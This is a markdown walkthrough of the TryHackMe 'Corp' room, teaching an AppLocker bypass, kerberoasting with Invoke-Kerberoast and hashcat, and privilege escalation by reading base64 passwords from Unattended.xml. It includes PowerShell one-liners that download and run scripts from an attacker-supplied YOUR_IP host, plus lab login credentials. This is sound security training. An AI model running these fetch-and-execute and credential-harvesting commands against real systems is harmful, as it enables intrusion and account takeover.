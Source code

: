 # [Corp](https://tryhackme.com/r/room/corp)

![Corp](./images/Corp.png)

Bypass Windows Applocker and escalate your privileges. You will learn about kerberoasting, evading AV, bypassing applocker and escalating your privileges on a Windows system.

## Task 1 - Deploy the Windows machine

In this room, you will learn the following:

1. Windows Forensics
2. Basics of kerberoasting
3. AV Evading
4. Applocker

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

### Answer the questions below

Deploy the windows machine, you will be able to control this in your browser. However if you prefer to use your own RDP client, the credentials are below.

Username: `corp\dark`  
Password: `_QuejVudId6`

## Task 2 - Bypassing Applocker

![task2-logo](./images/task2-logo.png)

AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher, and hash.

You will have noticed that with the deployed machine, you cannot execute your binaries, and certain functions on the system will be restricted.

### Answer the questions below

There are many ways to bypass AppLocker.

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: `C:\Windows\System32\spool\drivers\color` - This is whitelisted by default. 

* Go ahead and use PowerShell to download an executable of your choice locally, place it in the whitelisted directory and execute it.

Just like Linux bash, Windows Powershell saves all previous commands into a file called **ConsoleHost_history**. This is located at `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

* Access the file and obtain the flag.

## Task 3 - Kerberoasting

<img src="./images/task3-logo.png" height=300  width=auto>

It is important you understand how Kerberous actually works in order to know how to exploit it. Watch the video below.

[![Kerberos](./images/task3-thumbnail.png)](https://www.youtube.com/embed/LmbP-XD1SC8)

<video src="https://www.youtube.com/embed/LmbP-XD1SC8" width="320" height="240" controls></video>


Kerberos is the authentication system for Windows and Active Directory networks. There are many attacks against Kerberos, in this room we will use a Powershell script to request a service ticket for an account and acquire a ticket hash. We can then crack this hash to get access to another user account!
Answer the questions below

Lets first enumerate Windows. If we run `setspn -T medin -Q */*` we can extract all accounts in the SPN.

SPN is the Service Principal Name, and is the mapping between service and account.

Running that command, we find an existing SPN. What user is that for?

Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

Lets first download the Powershell [Invoke-Kerberoast](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1).

```
powershell -ep bypass;
iex(New-Object Net.WebClient).DownloadString('https://YOUR_IP/Kerberoast.ps1') 
```

Now lets load this into memory: `Invoke-Kerberoast -OutputFormat hashcat |fl`

You should get a SPN ticket.

<img src="./images/task3-hascat.png" height=400  width=auto>

Lets use hashcat to bruteforce this password. The type of hash we're cracking is **Kerberos 5 TGS-REP etype 23** and the hashcat code for this is **13100**.

```
hashcat -m 13100 -a 0 hash.txt wordlist --force
```

Crack the hash. What is the users password in plain text?

Login as this user. What is his flag?

## Task 4 - Privilege Escalation

<img src="./images/task4-logo" height=200  width=auto>

We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.

### Answer the questions below

We will run [PowerUp1.ps1](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1) into memory for enumerating any weakness to abuse for local privilege escalation.

```
powershell -ep bypass;
iex​(New-Object Net.WebClient).DownloadString('http://YOUR_IP/PowerUp.ps1') 
```

The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.

"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." Read more about it [here](https://support.microsoft.com/en-us/topic/77504e1d-2b75-5be1-3eef-cec3617cc461).

It is also where users passwords are stored in base64 encoding. Navigate to `C:\Windows\Panther\Unattend\Unattended.xml`.

![task4-xml](./images/task4-xml.png)

* What is the decoded password?

* Now we have the Administrator's password, login as them and obtain the last flag.